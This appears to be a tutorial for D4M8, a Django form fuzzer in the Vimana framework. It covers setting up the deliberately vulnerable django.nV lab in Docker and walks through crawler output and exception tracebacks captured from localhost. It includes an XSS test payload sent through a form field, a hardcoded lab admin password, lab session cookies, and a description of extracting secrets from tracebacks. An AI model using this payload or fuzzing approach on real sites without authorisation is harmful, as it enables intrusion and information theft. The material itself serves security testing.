

# D4M8 Deep Dive: From Manual Profiling to Rule Automation

## Overview
D4M8 (Django web Form Fuzzer for Mapping Exceptions) is an advanced fuzzing tool specifically designed to probe Django web form implementations for unhandled exceptions and security vulnerabilities. It systematically tests form input validation mechanisms, error handling, and submission handlers, capturing complete exception tracebacks with contextual information.
The tool operates either through direct command-line parameters or via rule-based fuzzing configurations. When an exception is triggered, D4M8 captures comprehensive data about it, including stack traces, variable values, and contextual information.

### Key Features

* Web form-focused fuzzing with customizable targets and payloads
* Multi-threading support with fine-grained control over test vectors
* Extraction of sensitive information from exception traces
* Code reassembly from exception traces for deeper analysis
* Mapping of data flows through web form processing components
* Identification of security vulnerabilities through exception patterns

D4M8 works seamlessly with other Vimana framework tools, using both blackbox and informed testing approaches. The collected exceptions allow security researchers and developers to:

* Understand application structure and component relationships
* Trace data flows through form validation and processing
* Discover information disclosure vectors in error handling
* Analyze code patterns for security weaknesses

At its core, D4M8 excels at extracting valuable information from unhandled exceptions in web forms, transforming development errors into comprehensive maps of application behavior and potential security issues. By focusing specifically on web forms, D4M8 targets one of the most common attack surfaces in web applications.

## Use Case

`vimana list --plugins` 

`vimana info --plugin d4m8` 

`vimana guide --plugin d4m8 --args`

`vimana guide --plugin d4m8 --examples`


### Lab Setup

Before running D4M8, let's set up a lab environment using django.nV, a purposefully vulnerable Django application provided by nVisium. While you can follow the project's instructions to run it locally on your host machine, I strongly recommend containerizing it for security reasons.
The easiest way to set this up is by copying and pasting the following commands directly into your Linux terminal (after carefully reviewing them, of course):
```yaml
{
echo "🚀 Configurando django.nV..."

# Dockerfile
cat > Dockerfile << 'DOC'
FROM python:3.8-slim
ENV PYTHONDONTWRITEBYTECODE=1
ENV PYTHONUNBUFFERED=1
ENV DEBIAN_FRONTEND=noninteractive
RUN apt-get update && apt-get install -y git build-essential sqlite3 curl && rm -rf /var/lib/apt/lists/*
WORKDIR /app
RUN git clone https://github.com/NetSPI/django.nV.git . && echo "✅ Projeto clonado!"
RUN pip install --upgrade pip && pip install -r requirements.txt && echo "✅ Dependências instaladas!"
RUN chmod +x reset_db.sh runapp.sh && sed -i 's/\r$//' reset_db.sh runapp.sh
RUN ./reset_db.sh && echo "✅ Banco configurado!"
RUN python manage.py shell -c "from django.contrib.auth.models import User; User.objects.create_superuser('admin', 'admin@example.com', 'admin123') if not User.objects.filter(username='admin').exists() else print('Admin exists')" || echo "Admin OK"
RUN python manage.py collectstatic --noinput || echo "Static OK"
RUN python manage.py check && echo "✅ Tudo OK!"
EXPOSE 8000
CMD ["python", "manage.py", "runserver", "0.0.0.0:8000"]
DOC

# docker-compose.yml
cat > docker-compose.yml << 'COMPOSE'
version: '3.8'
services:
  django-nv:
    build: .
    container_name: django-nv-app
    ports:
      - "8000:8000"
    environment:
      - DEBUG=1
    depends_on:
      - mailhog
    restart: unless-stopped
  mailhog:
    image: mailhog/mailhog:latest
    container_name: django-nv-mailhog
    ports:
      - "1025:1025"
      - "8025:8025"
    restart: unless-stopped
COMPOSE

echo "✅ Arquivos criados!"
echo "🔧 Iniciando docker-compose..."
docker-compose up --build

} && echo "🎉 Setup concluído! Acesse http://localhost:8000 (admin/admin123)"
```
#### Available Resources
If everything runs successfully, you'll have the following resources available:
```
🌐 URLs:

TaskManager Application: http://localhost:8000
Tutorials: http://localhost:8000/taskManager/tutorials/
MailHog: http://localhost:8025
Login: admin / admin123
```
#### Application Interface
Accessing the application URL http://localhost:8000 will display the main page:


To register a new user, navigate to http://localhost:8000/taskManager/register/. Create several users and note their email addresses for testing purposes.


### Running D4M8 Initial Analysis
#### D4M8 Workflow Architecture
D4M8 operates through a sophisticated three-stage process that systematically discovers, maps, and tests Django web applications:


#### Basic Scan
`vimana run plugin d4m8 --target-url http://localhost:8000`

##### 🔌 Stage 1: DMT - Scope Enrichment
The first phase involves scope enrichment using `DMT (Django Misconfiguration Tracker)`. This component:

- Analyzes the Django Application: Examines the target Django application's structure and configuration
- Extracts URL Patterns: Parses `urls.py` files to identify all defined URL patterns and routes
- Expands via `NoReverseMatch`: Uses Django's URL reversing mechanism to discover additional endpoints that might not be directly linked
- Returns Enriched Scope: Provides an expanded list of URLs to the next stage


<details>
<summary>Show full DMT Output</summary>

```python


        *         ⠛                     ⠛ 
                   _^_               .
        (( ( ____.´└┘┐`.____  )) ) )  *         *  
                 `.⠞⠓⠎.´               .
                  |││||
                  
                    ¨          .    -
                 . * .'e .           *
         `*´    .      . xce   .pt      -o-        .
            *               *         io>
            
            
            _ _              
            \\/imana v0.9 
            [|-ramewørk 
    
               fuzzer: 2
              exploit: 1
              tracker: 3
               parser: 1
                audit: 5
          fingerprint: 1
       reconnaissance: 1
              crawler: 1
          persistence: 1
             payloads: 3


 _n0p_ Starting PatternMapper via NoReverseMatch

 _n0p_ Mapping app ^$/ (1/3)...

   + ^$/[name='index']

 _n0p_ Mapping app ^taskManager (2/3)...

   + ^taskManager/^$/[name='index']
   + ^taskManager/^download/(?P<file_id>\d+)/$/[name='download']
   + ^taskManager/^(?P<project_id>\d+)/upload/$/[name='upload']
   + ^taskManager/^downloadprofilepic/(?P<user_id>\d+)/$/[name='download_profile_pic']
   + ^taskManager/^register/$/[name='register']
   + ^taskManager/^login/$/[name='login']
   + ^taskManager/^logout/$/[name='logout']
   + ^taskManager/^manage_groups/$/[name='manage_groups']
   + ^taskManager/^profile/$/[name='profile']
   + ^taskManager/^change_password/$/[name='change_password']
   + ^taskManager/^forgot_password/$/[name='forgot_password']
   + ^taskManager/^reset_password/$/[name='reset_password']
   + ^taskManager/^profile/(?P<user_id>\d+)$/[name='profile_by_id']
   + ^taskManager/^profile_view/(?P<user_id>\d+)$/[name='profile_view']
   + ^taskManager/^project_create/$/[name='project_create']
   + ^taskManager/^(?P<project_id>\d+)/edit_project/$/[name='project_edit']
   + ^taskManager/^manage_projects/$/[name='manage_projects']
   + ^taskManager/^(?P<project_id>\d+)/project_delete/$/[name='project_delete']
   + ^taskManager/^(?P<project_id>\d+)/$/[name='project_details']
   + ^taskManager/^project_list/$/[name='project_list']
   + ^taskManager/^(?P<project_id>\d+)/task_create/$/[name='task_create']
   + ^taskManager/^(?P<project_id>\d+)/(?P<task_id>\d+)/$/[name='task_details']
   + ^taskManager/^(?P<project_id>\d+)/task_edit/(?P<task_id>\d+)$/[name='task_edit']
   + ^taskManager/^(?P<project_id>\d+)/task_delete/(?P<task_id>\d+)$/[name='task_delete']
   + ^taskManager/^(?P<project_id>\d+)/task_complete/(?P<task_id>\d+)$/[name='task_complete']
   + ^taskManager/^task_list/$/[name='task_list']
   + ^taskManager/^(?P<project_id>\d+)/manage_tasks/$/[name='manage_tasks']
   + ^taskManager/^(?P<project_id>\d+)/(?P<task_id>\d+)/note_create/$/[name='note_create']
   + ^taskManager/^(?P<project_id>\d+)/(?P<task_id>\d+)/note_edit/(?P<note_id>\d+)$/[name='note_edit']
   + ^taskManager/^(?P<project_id>\d+)/(?P<task_id>\d+)/note_delete/(?P<note_id>\d+)$/[name='note_delete']
   + ^taskManager/^dashboard/$/[name='dashboard']
   + ^taskManager/^search/$/[name='search']
   + ^taskManager/^tutorials/$/[name='tutorials']
   + ^taskManager/^tutorials/(?P<vuln_id>[a-z\-]+)/$/[name='show_tutorial']
   + ^taskManager/^settings/$/[name='settings']

 _n0p_ Mapping app ^admin (3/3)...

   + ^admin/^$/[name='index']
   + ^admin/^login/$/[name='login']
   + ^admin/^logout/$/[name='logout']
   + ^admin/^password_change/$/[name='password_change']
   + ^admin/^password_change/done/$/[name='password_change_done']
   + ^admin/^jsi18n/$/[name='jsi18n']
   + ^admin/^r/(?P<content_type_id>\d+)/(?P<object_id>.+)/$/[name='view_on_site']
   + ^admin/^auth/group/
   + ^admin/^auth/user/
   + ^admin/^(?P<app_label>auth)/$/[name='app_list']

```
</details>

As shown in the output, the framework identifies various plugins and begins pattern mapping via NoReverseMatch analysis. The mapping process discovers multiple TaskManager endpoints including:

- Registration and authentication endpoints (`/taskManager/register/`, `/taskManager/login/`)
- Profile management functions (`/taskManager/profile/`, `/taskManager/profile_view/`)
- Project and task management interfaces (`/taskManager/project_create/`, `/taskManager/task_edit/`)
- Password reset functionality (`/taskManager/forgot_password/`, `/taskManager/reset_password/`)

##### 🔌 Stage 2: ViWeC - Web Crawler Discovery
The web crawler component systematically explores the discovered endpoints, building a comprehensive map of the application structure. This includes both publicly accessible and authenticated areas of the application.


<details>
<summary>Show full Crawler Output</summary>

```python

      .   .   .
    . ^ . ^ . ^ .     
  _/|\_/|\_/|\_/|\_   
 / \./ \./ \./ \./ \  vimana
(-V-|-1-|-W-|-3-|-C-) web
 \_/.\_/.\_/.\_/.\_/  crawler
   \|/*\|/*\|/*\|/
    .   .   .   .
       
  


    

[2025-06-14 16:37:39.256687] → Starting viwec against 1 inital URLs 
【200】⊶  http://localhost:8000
    + http://localhost:8000/
    + http://localhost:8000/taskManager/tutorials/
    + http://localhost:8000/taskManager/register
    + http://localhost:8000/taskManager/login
    + http://localhost:8000/taskManager/register
【200】⊶  http://localhost:8000
    + http://localhost:8000/
    + http://localhost:8000/taskManager/tutorials/
    + http://localhost:8000/taskManager/register
    + http://localhost:8000/taskManager/login
    + http://localhost:8000/taskManager/register
【200】⊶  http://localhost:8000/taskManager/tutorials/
    + http://localhost:8000/taskManager/
【200】⊶  http://localhost:8000/taskManager/register/
    + http://localhost:8000/
    + http://localhost:8000/taskManager/tutorials/
    + http://localhost:8000/taskManager/register
    + http://localhost:8000/taskManager/login
【200】⊶  http://localhost:8000/taskManager/login/
    + http://localhost:8000/
    + http://localhost:8000/taskManager/tutorials/
    + http://localhost:8000/taskManager/register
    + http://localhost:8000/taskManager/login
    + http://localhost:8000/taskManager/tutorials/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/forgot_password
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
【200】⊶  http://localhost:8000/taskManager/
    + http://localhost:8000/
    + http://localhost:8000/taskManager/tutorials/
    + http://localhost:8000/taskManager/register
    + http://localhost:8000/taskManager/login
    + http://localhost:8000/taskManager/register
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/components/
【200】⊶  http://localhost:8000/taskManager/forgot_password/
    + http://localhost:8000/
    + http://localhost:8000/taskManager/tutorials/
    + http://localhost:8000/taskManager/register
    + http://localhost:8000/taskManager/login
    + http://localhost:8000/taskManager/tutorials/redirects/
【200】⊶  http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/
【200】⊶  http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/injection/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/tutorials/brokenauth/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/tutorials/injection/#accordion1_1
【200】⊶  http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/brokenauth/#accordion1_1
【200】⊶  http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/injection/#accordion1_2
【200】⊶  http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/xss/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/brokenauth/#accordion1_2
【200】⊶  http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/idor/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/components/
【200】⊶  http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/injection/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/misconfig/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
【200】⊶  http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
【200】⊶  http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/brokenauth/#accordion1_3
【200】⊶  http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/
    + http://localhost:8000/taskManager/tutorials/exposure/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/tutorials/access/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/injection/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/misconfig/#accordion1_1
    + http://localhost:8000/taskManager/tutorials/csrf/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/xss/#accordion1_1
    + http://localhost:8000/taskManager/tutorials/components/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/brokenauth/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/redirects/#myModal
    + http://localhost:8000/taskManager/login/
    + http://localhost:8000/taskManager/tutorials/injection/
    + http://localhost:8000/taskManager/tutorials/brokenauth/
    + http://localhost:8000/taskManager/tutorials/xss/
    + http://localhost:8000/taskManager/tutorials/idor/
    + http://localhost:8000/taskManager/tutorials/misconfig/
    + http://localhost:8000/taskManager/tutorials/exposure/
    + http://localhost:8000/taskManager/tutorials/access/
    + http://localhost:8000/taskManager/tutorials/csrf/
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/tutorials/exposure/#accordion1_1
    + http://localhost:8000/taskManager/tutorials/idor/#accordion1_1
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/tutorials/misconfig/#accordion1_2
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/tutorials/xss/#accordion1_2
    + http://localhost:8000/taskManager/tutorials/components/
    + http://localhost:8000/taskManager/tutorials/redirects/
    + http://localhost:8000/taskManager/tutorials/redirects/#accordion1_1
    + http://localhost:8000/taskManager/tutorials/exposure/#accordion1_2
    + http://localhost:8000/taskManager/tutorials/idor/#accordion1_2
    + http://localhost:8000/taskManager/tutorials/access/#accordion1_1
    + http://localhost:8000/taskManager/tutorials/misconfig/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/csrf/#accordion1_1
    + http://localhost:8000/taskManager/tutorials/xss/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/components/#accordion1_1
    + http://localhost:8000/taskManager/tutorials/redirects/#accordion1_2
    + http://localhost:8000/taskManager/tutorials/exposure/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/idor/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/access/#accordion1_2
    + http://localhost:8000/taskManager/tutorials/misconfig/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/csrf/#accordion1_2
    + http://localhost:8000/taskManager/tutorials/xss/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/components/#accordion1_2
    + http://localhost:8000/taskManager/tutorials/redirects/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/exposure/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/idor/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/access/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/csrf/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/components/#accordion1_3
    + http://localhost:8000/taskManager/tutorials/redirects/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/access/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/csrf/#accordion1_4
    + http://localhost:8000/taskManager/tutorials/components/#accordion1_4


```
</details>

It receives the discovered scope from DMT and:
- Systematically Crawls URLs: Visits each URL provided by DMT
- Discovers New Endpoints: Follows links, form actions, and JavaScript references to find additional URLs
- Maps Application Structure: Builds a comprehensive map of the application including both public and authenticated areas
- Generates Complete Scope: Produces the final, comprehensive list of all discoverable endpoints

##### 🔌 Stage 3: D4M8 - Form Fuzzing Engine
After enriching the scope, the plugin begins testing with an initial scope of 109 URLs, even though we only provided the target URL. Detailed information about the request and response is displayed as soon as the first exception is triggered.


Here the D4M8 itself receives the complete scope from the previous stages and:
- Identifies Forms: Scans all discovered pages for HTML forms and input fields
- Extracts Form Details: Analyzes form structure, input types, validation requirements, and submission methods
- Generates Attack Payloads: Creates targeted payloads designed to trigger exceptions and reveal information
- Creates Test Cases: Builds comprehensive test scenarios for each form and input combination
- Executes Fuzzing: Systematically tests forms with various malicious and edge-case inputs
- Captures Exceptions: Records detailed exception tracebacks when errors occur
- Extracts Sensitive Data: Analyzes exception details to extract usernames, tokens, internal paths, and other sensitive information

Here's an example where the plugin attempts to send a form found in the `taskmanager/reset_password/` endpoint with empty values:
```
       Content-Type: application/x-www-form-urlencoded
            Referer: http://localhost:8000/taskManager/reset_password/
             Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate, br, zstd
             Cookie: csrftoken=B1QUduZznOLpQbUr0lqYcbl9V8nwVt3d; sessionid=gAV9lC4:1uQA6G:BXfWWHnkAsalKZaMm3iOfaURJ7M
       csrfmiddlewaretoken: None

        reset_token: ""
       new_password: ""
   confirm_password: ""
```

#### Response Analysis
This triggers a `MultipleObjectsReturned` exception, providing detailed information about the application's internal state and structure.


We have all the variables and their respective values in that exception traceback, and at this point, nothing particularly interesting inside this MultipleObjectsReturned dump.


### Categorizing Exception Severity
Some exceptions are more critical than others, and this distinction is important for creating rules that specify target exceptions. For example, a ValueError is typically less interesting than an IntegrityError:


And here is the specific trigger affecting the taskManager module itself, where the ValueError was triggered:


This shows the application attempting to convert malicious input to an integer:

As you can see, it's all about this part:
```Python
         Line trigger: 331   int(request.POST.get('project_duedate', False))))
```
which becomes like this with our test payload:
```Python
         Line trigger: 331   int("<samp onfocusout=alert(1) tabindex=1 id=x></samp><input autofocus>")
```
Since this conversion is impossible, it throws a ValueError. Once you understand this pattern, you can skip all ValueError occurrences by running:
```
vimana run d4m8 --target-url http://127.0.0.1:8000 --skip-exceptions ValueError
```

#### IntegrityError Example
In contrast, here's an `IntegrityError` exception dump:


<details>
<summary>Show full Traceback</summary>

```python
 ⮚              Request                       

       Content-Type: application/x-www-form-urlencoded
            Referer: http://localhost:8000/taskManager/project_create/
             Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate, br, zstd
             Cookie: csrftoken=B1QUduZznOLpQbUr0lqYcbl9V8nwVt3d; sessionid=gAV9lC4:1uQA6G:BXfWWHnkAsalKZaMm3iOfaURJ7M
       csrfmiddlewaretoken: None

                  q: 1-false
csrfmiddlewaretoken: B1QUduZznOLpQbUr0lqYcbl9V8nwVt3d

	   <input type="text" name="q" class="form-control search" placeholder="Search">text">                                   
	   <input type="hidden" name="csrfmiddlewaretoken" value="B1QUduZznOLpQbUr0lqYcbl9V8nwVt3d">
	   <input name="title" class="form-control" placeholder="">
	   <input name="project_duedate" class="form-control" id="datetimepicker" type="text">

 ⮘             Response                       

               Date: Fri, 13 Jun 2025 22:25:43 GMT
             Server: WSGIServer/0.2 CPython/3.8.20
       Content-Type: text/html
    X-Frame-Options: SAMEORIGIN
               Vary: Cookie

    IntegrityError 

             Reason: A violation of a Django database relation occurred
           Category: Database Exceptions
     Request Method: POST
        Request URL: http://localhost:8000/taskManager/project_create/
     Django Version: 1.8.3
    Exception Value: ['NOT NULL constraint failed: taskManager_project_users_assigned.user_id']
 Exception Location: /usr/local/lib/python3.8/site-packages/django/db/backends/sqlite3/base.py in execute, line 318
  Python Executable: /usr/local/bin/python
     Python Version: 3.8.20
        Python Path: ['/app\n /usr/local/lib/python38.zip\n /usr/local/lib/python3.8\n /usr/local/lib/python3.8/lib-dynload\n /usr/local/lib/python3.8/site-packages']
        Server time: Fri, 13 Jun 2025 22:25:43 +0000

          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/core/handlers/base.py
             Function: get_response
         Line trigger: 132   response = wrapped_callback(request, *callback_args, **callback_kwargs)

                  ◎  vars 

                     self: <django.core.handlers.wsgi.WSGIHandler object at 0x7fa378569ee0>
                  urlconf: 'taskManager.urls'
                 resolver: <RegexURLResolver 'taskManager.urls' (None:None) ^/>
                 response: None
        middleware_method: <bound method CsrfViewMiddleware.process_view of <django.middleware.csrf.CsrfViewMiddleware object at 0x7fa37716dfd0>>
           resolver_match: ResolverMatch(func=taskManager.views.project_create, args=(), kwargs={}, url_name=project_create, app_name=None, namespaces=['taskManager'])
                 callback: <function project_create at 0x7fa3770afee0>
            callback_args: ()
          callback_kwargs: {}
         wrapped_callback: <function project_create at 0x7fa3770afee0>
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/models/fields/related.py
             Function: __set__
         Line trigger: 1274   manager.add(*value)

                  ◎  vars 

                     self: <django.db.models.fields.related.ReverseManyRelatedObjectsDescriptor object at 0x7fa377578ee0>
                 instance: Error in formatting: TypeError: __str__ returned non-string (type bool)
                    value: (None,)
                  manager: <django.db.models.fields.related.create_many_related_manager.<locals>.ManyRelatedManager object at 0x7fa3771f36a0>
                       db: 'default'
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/models/fields/related.py
             Function: add
         Line trigger: 984   self._add_items(self.source_field_name, self.target_field_name, *objs)

                  ◎  vars 

                     self: <django.db.models.fields.related.create_many_related_manager.<locals>.ManyRelatedManager object at 0x7fa3771f36a0>
                     objs: (None,)
                       db: 'default'
                      rel: <ManyToManyRel: taskManager.project>
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/models/fields/related.py
             Function: _add_items
         Line trigger: 1103   self.through._default_manager.using(db).bulk_create([

                  ◎  vars 

                     objs: (None,)
                    Model: <class 'django.db.models.base.Model'>
                  new_ids: {None}
                      obj: None
                       db: 'default'
                     vals: []
                     self: <django.db.models.fields.related.create_many_related_manager.<locals>.ManyRelatedManager object at 0x7fa3771f36a0>
        source_field_name: 'project'
        target_field_name: 'user'
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/models/query.py
             Function: bulk_create
         Line trigger: 392   self._batched_insert(objs_without_pk, fields, batch_size)

                  ◎  vars 

                     self: [<Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>, <Project_users_assigned: Project_users_assigned object>]
                     objs: [<Project_users_assigned: Project_users_assigned object>]
               batch_size: None
               connection: <django.db.backends.sqlite3.base.DatabaseWrapper object at 0x7fa37710b490>
                   fields: [<django.db.models.fields.related.ForeignKey: project>, <django.db.models.fields.related.ForeignKey: user>]
             objs_with_pk: []
          objs_without_pk: [<Project_users_assigned: Project_users_assigned object>]
          ➤  Trigger 

               Module: /usr/local/lib/python3.8/site-packages/django/db/models/query.py
             Function: _batched_insert
         Line trigger: 936   self.model._base_manager._insert(batch, fields=fields,

                  ◎  vars 

